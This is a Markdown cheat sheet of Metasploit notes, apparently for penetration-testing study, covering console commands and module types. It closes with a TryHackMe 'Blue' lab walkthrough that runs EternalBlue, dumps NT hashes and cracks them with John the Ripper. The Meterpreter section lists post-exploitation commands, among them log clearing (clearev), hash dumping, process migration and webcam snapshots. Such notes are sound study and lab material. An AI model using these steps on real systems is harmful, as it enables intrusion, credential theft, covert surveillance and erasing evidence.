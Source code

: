 # Setup Database
* To initialize the database: `msfdb init`

# Commands

## General
* Help menu: `?`
* Connect to a host (similar to netcat or telnet): `connect`
* To view information about a module: `info`
* Save the current settings / active datastores to a file: `save`
* Search for a module: `search`
* To select a module `use`
	* Right after searching a module, you can use `use <number>` to use a module number

## Modules
* Load a module (framework plugin): `load <plugin>`

## Variables
* To set a variable: `set <var>`
* To set a global variable: `setg <var>`
* To get a variable: `get <var>`
* To reset a variable to null / no value: `unset <var>`

## Micelaneous
* Screen cast (save the contents of the screen to a file): `spool`

# Modules
* There are seven modules types

## Auxiliary
* Scanning and verifying machines are exploitable

## Encoder
* Payload obfuscation
* Allows use to modify the "appearance" of the exploit to avoid signature detection

## Exploit
* Holds exploit code

### Commands
* To mount and exploit: `use <exploit>`
* To search for an exploit: `search <key words>`
* To set a payload: `set PAYLOAD <payload>`
	* If no payload is set, a metasploit reverse shell is usually the default
* To run the job in the background: `run -j`
* To view running jobs: `jobs`
* To view active sessions (connections): `sessions`
	* To join a session: `sessions -i <session number>`

## Evasion
* New to Metasploit 5

## NOP
* Used with buffer overflow and ROP attacks

## Payload
* Contains shellcode to execute the exploit

## Post
* Loot and pivot!

### [Meterpriter](https://www.offensive-security.com/metasploit-unleashed/about-meterpreter/)

#### [Commands](https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/)
* Access the help menu: `?`
* Background the session: `background`
* Cat: `cat <file>`
* Change directory: `cd <dir>`
    * Show the current path: `pwd`
* Clear the application, system, and security logs on a Windows system: `clearev`
* Download file from the remote machine: `download <file>`
* Edit a file: `edit <file>`
* Execute a command on the target: `execute <command>`
* Get the current user id: `getuid`
* Dump hashes from the SAM database: `run post/windows/gather/hashdump`
* Display idle time of the remote user: `idletime`
* Display ip address information: `ipconfig`
* Change local working directory: `lcd <dir>`
    * View the local working path: `lpwd`
* View files in current remote directory: `ls`
* Migrate from one process to another on the victim: `run post/windows/manage/migrate`
* View the running processes: `ps`
* Run commands from a meterpriter script: `resource <path to commands file> <where to run commands on target>`
* Find specific files on the target host: `search <thing>`
* Enter shell: `shell`
* Upload a file to the target: `upload <local file> <target path>`
* Display available webcams on target: `webcam_list`
* Save a snapshot from the target's webcam: `webcam_snap`


# Recon

## Nmap
* Metasploit has a built in way for nmap to run and save the results directory to the database: `db_nmap`
* To view saved hosts: `hosts`
* To view the found services: `services`
* To view list of known vulnerabilities found: `vulns`
	* To generate: `db_nmap --script vuln <IP>`

# Examples

## TryHackMe

### Blue
* Scan machine for vulnerabilities: `db_nmap --script vuln <IP>`
	* Possible exploit: `ms17-010`
* Search: `search ms17-010`
* Use "ms17_010_eternalblue"
* Set RHOSTS
* `run -j`
* Confirm session was created: `sessions`
	* This vulnerability is finicky and often fails
* Connect to session: `sessions -i <id>`
* Esculate privaleges
* Use: "post/multi/manage/shell_to_meterpreter" to convert a normal shell to a meterpreter shell
* Connect to session
* List processes via meterpreter: `ps`
* Migrate to a "NT AUTHORITY\SYSTEM" process: `migrate <PID>`
* Get some passwords: `hashdump`
* Use john the ripper: `john pwlist.txt --format=nt --wordlist=/usr/share/wordlists/rockyou.txt`
* Find some flags! Easy way: `search flag1`
